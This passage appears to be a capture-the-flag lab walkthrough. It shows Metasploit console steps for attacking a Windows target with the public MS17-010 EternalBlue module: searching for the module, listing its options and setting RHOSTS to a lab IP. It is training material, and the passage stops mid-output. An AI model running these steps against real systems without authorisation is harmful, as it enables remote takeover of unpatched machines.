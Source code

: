 Exploit the machine and gain a foothold.

1. Start Metasploit

`No answer needed`

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

```
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

`exploit/windows/smb/ms17_010_eternalblue`

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.166.97
RHOSTS => 10.10.166.97
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):
```
